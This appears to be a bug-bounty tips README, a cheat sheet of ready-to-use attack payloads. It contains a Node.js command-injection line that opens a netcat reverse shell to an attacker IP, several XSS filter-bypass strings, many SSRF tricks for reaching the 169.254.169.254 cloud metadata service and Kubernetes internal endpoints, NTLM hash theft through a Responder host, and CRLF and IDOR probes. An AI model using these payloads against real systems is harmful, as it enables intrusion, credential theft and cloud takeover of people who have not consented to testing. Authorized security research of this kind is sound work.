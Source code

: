 ![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/images/Lets-Dig-into-the-Robust-Bug-Bounty-Program-Developed-by-Google.png)
# General tips
changing Exif metadata of an image can lead to XSS, RCE ...  [learn more](https://gokulvinesh.medium.com/rce-xss-via-image-exif-metadata-dddf33dadb41).
# RCE
1-If you discover a node.js template area, you should try triggerable node payload </br>
`require('child_process').exec('nc -e sh ip port');{src:/bin/sh/}`

# XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert.<br>
3-Amazon CloudFront WAF sometimes can be easily bypassed with `<svg onload=(alert)(1)` instead of `<svg onload=alert(1)`<br>
4-Bypass Waf <br>
```
<details%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%2300000000000000000041//
```
5-Bypass XSS WAF protection using a comment between a JS function name and parameters
```
<img/src/onerror=alert/*1337*/(1)>
<img/src/onerror=alert//&NewLine;(2)>
<img/src/onerror=alert&sol;**&sol;(3)>
```
<br>
6-Bypass XSS WAF protection using Whitespace Separators between a JS function name and parameters <br>

```
<img/src/onerror=alert&#xFEFF;(1337)>
```
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Whitespace%20Separators.jpeg)

# SSRF
1-Try other URL schemes:<br>
```
• file:// (file read)
• netdoc:// (file read)
• dict://
• gopher://
• jar://
• ldap://
• and more!
```
<br>
You might be able to get file read.
<br>
Or send multi-line requests to gain additional impact
<br>
(Ex: gopher + redis = likely RCE)<br>
<br>

2-Is the target running Windows?

Can't hit internal services?

(Well, try this even if you can)

Try to steal NTLM hashes with Responder.

`/vulnerable?url=http://your-responder-host`
<br><br>
3-Try alternative representations of IP addresses.

IPs can be represented in many ways including:
```
• octal
• decimal
• hexadecimal
• etc.
```
Try different representations.

You might get lucky.
<br><br>
4-Can't hit `169.254.169.254`?

On AWS, "instance-data" resolves to the metadata server.

Try hitting `http://instance-data` instead.
<br><br>
5- Know your target's technologies.

Look at job postings!

You might not be able to hit a meta-data service.

But there are likely other internal services!

(ex: I've pulled data from an internal Elasticsearch instance)
<br><br>
6- Are they using Kubernetes?

Search Burp history for `.default.svc` or `.cluster.local`

If you find references, try to hit them.

Also, try to hit the Kubernetes API: `https://kubernetes.default.svc`
<br><br>
7- In Kubernetes, you should be brute-forcing for:

`HOSTNAME.<some-namespace>.svc.cluster.local`

I often use Burp Intruder: `FUZZ.default.svc.cluster.local`

Need better wordlists?

Scrape helm charts from ArtifactHub.
<br><br>
8- Can't supply a full URL? You can still get SSRF!

If your input is used to build a URL, THINK.

Learn about URL structures.

The following 4 characters have led to many SSRFs:
```
• @
• ?
• #
• ;
```
An example is in the picture:
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/images/img1.jpeg)
<br><br>
9- If your injection is down the path, traverse!
```
GET /vulnerable?id=1234

|> app fetches: http://some-api/api/v1/1234
```
```

GET /vulnerable?id=../../

|> app fetches: http://some-api/api/v1/../../
```

Find an open redirect & you probably have SSRF.

Or likely can hit internal endpoints.

10- Use Hostnames Instead of IPs

Use services like `http://nip.io` to bypass direct IP bans. 

Here are some examples. All of these resolve to `169.254.169.254`.
```
http://169.254.169.254.nip.io
http://169-254-169-254.nip.io
http://a9fea9fe.nip.io (hexadecimal IP notation)
```
11- HTTP Redirects

Use redirects from a custom domain to a blocked IP to catch applications off-guard! 

Here’s a simple PHP script to perform the redirect.

`<?php header(“Location: http://169.254.169.254/”) ?>`

12- DNS Rebinding

Use TOCTOU vulnerabilities, by providing alternating DNS responses to breach. 

Set up a DNS server that responds with two different IPs on alternating requests, one is allowed through the `ip_is_blocked()` function, and the other is not.

13-Non-Standard IP Notations

Octal, hexadecimal, integer, IPv6 can bypass some IP blockages! 

All these will be interpreted as `169.254.169.254`:
```
025177524776 (octal)
0xa9fea9fe (hexadecimal)
2852039166 (integer)
::ffff:a9fe:a9fe (IPv6)
```
# Rate limit bypass
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Rate%20limit%20bypass.jpeg)
# Line terminators
For XSS / CRLF injection.<br>
🔹LF: %0A (\u000A)<br>
🔹VT: %0B (\u000B)<br>
🔹FF: %0C (\u000C)<br>
🔹CR: %0D (\u000D)<br>
🔹CR+LF: %0D%0A (\u000D\u000A)<br>
🔹NEL: %C2%85 (\u0085)<br>
🔹LS: %E2%80%A8 (\u2028)<br>
🔹PS: %E2%80%A9 (\u2029)<br>
# IDOR:
1-<br>
```
/api/getUser$FUZZ$
-> /api/getUserv1
-> /api/getUserBeta
```
